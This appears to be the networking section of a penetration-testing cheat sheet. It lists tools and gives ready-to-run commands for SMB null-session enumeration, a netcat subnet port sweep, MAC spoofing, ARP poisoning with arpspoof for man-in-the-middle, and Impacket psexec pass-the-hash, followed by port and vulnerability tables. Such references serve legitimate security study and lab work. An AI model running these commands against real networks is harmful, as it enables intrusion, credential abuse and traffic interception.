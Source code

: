 ## Networking

**Tools**
- [Echo Mirage](https://resources.infosecinstitute.com/topic/echo-mirage-walkthrough/)
- [Wireshark](https://www.wireshark.org/)
- [PCredz](https://github.com/lgandx/PCredz)
- [Impacket](https://github.com/SecureAuthCorp/impacket)
  - `impacket-mssqlclient <user>:<password>@<IP> -windows-auth`
  - `impacket-psexec -hashes 00000000000000000000000000000000:<NTLM> <USERNAME>@<IP>`
  - `impacket-psexec <USERNAME>:<PASSWORD>@<IP>`
- [putty](https://www.putty.org/)
- [MobaXterm](https://mobaxterm.mobatek.net/)
- [proxychains](https://github.com/haad/proxychains)
- [Samba suite](https://www.samba.org/)
- [Enum](https://packetstormsecurity.com/search/?q=win32+enum&s=files)
- [Winfo](https://packetstormsecurity.com/search/?q=winfo&s=files)
- [enum4linux](https://www.kali.org/tools/enum4linux/)
- [macchanger](https://github.com/acrogenesis/macchanger)

#### Checking the routing table
```
ip route        on Linux box
route print     on Windows
netstat -r      on Mac OSX
```

#### Discover the MAC address
```
ip addr         on Linux
ipconfig /all   on Windows
ifconfig        on MacOS
```

#### Change MAC addess
- [How to change or spoof the MAC address in Windows (7 ways)](https://www.digitalcitizen.life/change-mac-address-windows/)
- [How to Change Your MAC Address on Linux](https://www.makeuseof.com/how-to-change-mac-address-on-linux/)
  - [macchanger](https://github.com/acrogenesis/macchanger)

#### Check listening ports and the current TCP connections
```
netstat -ano    on Windows
netstat -tunp   on Linux

on MacOS
--------
netstat -p tcp -p udp
lsof -n -i4TCP -i4UDP
```

#### Add new routes
```
ip route add <net_address_in_cdr> via <interface_gateway>                             on Linux
route add <net_address_in_cdr> mask <net_address_mask_in_cdr> <interface_gateway>     on Windows
nmap -sn <net_address_in_cdr>                                                         Check hosts alive, adding -A you gather more info for a target
```

#### Null session
```
Windows
-------
nbtstat /?                               help command
nbtstat -A <Target-IP>                   display information about a target
NET VIEW <Target-IP>                     enumerate the shares of a target
NET USE \\<Target-IP>\IPC$ '' /u:''      connect to a window share; connect to 'IPC$' share by using empty username and password

Linux
-----
nmblookup -A <Target-IP>                 same as nbtstat for Linux; display information about a target
smbclient -L //<Target-IP> -N            access Windows shares
smbclient //<Target-IP>/IPC$ -N          connect to a window share; connect to 'IPC$' share by using empty username and password

Enum
----
enum -s <Target-IP>                      enumerate the shares of a machine
enum -U <Target-IP>                      enumerate the users of a machine
enum -P <Target-IP>                      check the password policy of a machine

Winfo
-----
winfo <Target-IP> -n                     use winfo with null session

```

#### Enumeration
```
ip addr                                                                             query available network interfaces
ip route                                                                            enumerate network routes
for i in $(seq 1 254); do nc -zv -w 1 <octet>.<octet>.<octet>.$i <port>; done       bash loop with Netcat to sweep for port <PORT> in a subnet
```

#### Target analysis
- `tracert <target>` shows details about the path that a packet takes from the device sender to the target destination specified
- `for ip in $(echo '<IP>'); do ping -c 5 $ip; traceroute $ip; echo '\nnslookup'; nslookup $ip; done`

#### Check ARP cache
```
ip neighbour    on Linux
apr -a          on Windows
arp             on *nix OS
```

#### ARP Poisoning

1. The goal is to (1) trick the victim to save in the ARP Cache my MAC address (the attacker) associated it with the router IP and (2) the router to send the traffic back to you, this to perform a MITM
2. First, enable the Linux Kernel IP Forwarding to transform a Linux Box into a router `echo 1 > /proc/sys/net/ipv4/ip_forward`
3. Run arpspoof `arpspoof -i <interface> -t <target> -r <host>`
   - Check also [Ettercap](ettercap-project.org)

An example
1. `echo 1 > /proc/sys/net/ipv4/ip_forward`
2. `arpspoof -i eth0 -t 192.168.4.11 -r 192.168.4.16`


#### Well-known Ports

| Service       | Port          |
| ---           | ---           |
| SMTP          | 25            |
| SSH           | 22            |
| POP3          | 110           |
| IMAP          | 143           |
| HTTP          | 80            |
| HTTPS         | 443           |
| NETBIOS       | 137, 138, 139 |
| SFTP          | 115           |
| Telnet        | 23            |
| FTP           | 21            |
| RDP           | 3389          |
| MySQL         | 3306          |
| MS SQL Server | 1433          |
| Confluence    | 8090          |

#### Common Port Vulnerabilities

See : ["Open Port Vulnerabilities List by Dirk Schrader"](https://blog.netwrix.com/2022/08/04/open-port-vulnerabilities-list/)

| Ports | Vulnerabilities |
| ---  | --- |
| 20, 21 (FTP) | - Brute-forcing <br/>- Anonymous authentication (`anonymous` as username and password) <br/>- Cross-site scripting <br/>- Directory traversal attacks |
| 22 (SSH) | - leaked SSH keys <br/>- Brute-forcing |
| 23 (Telnet) | - Brute-forcing <br/>- Spoofing <br/>-Credential sniffing |
| 25 (SMTP) | - Spoofing <br/>- Spamming |
| 53 (DNS) | - DDoS |
| 137, 139 (NetBIOS over TCP) 445 (SMB) | - [EternalBlue](https://www.cisecurity.org/wp-content/uploads/2019/01/Security-Primer-EternalBlue.pdf) <br/>- Capturing NTLM hashes <br/>- Brute-force |
| 80, 443, 8080 and 8443 (HTTP and HTTPS) | - Cross-site Scripting (XSS) <br/>- SQL injections <br/>- Cross-Site Request Forgeries (CSRF) <br/>- DDoS |
| 1433,1434 and 3306 (SQL Server and MySQL) | - Default configurations <br/>- DDoS |
| 3389 (Remote Desktop) | - [BlueKeep](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-0708) <br/>- Leaked or weak user authentication |
| 8090 (Confluence) | [CVE-2022-26134](#cve-2022-26134) |
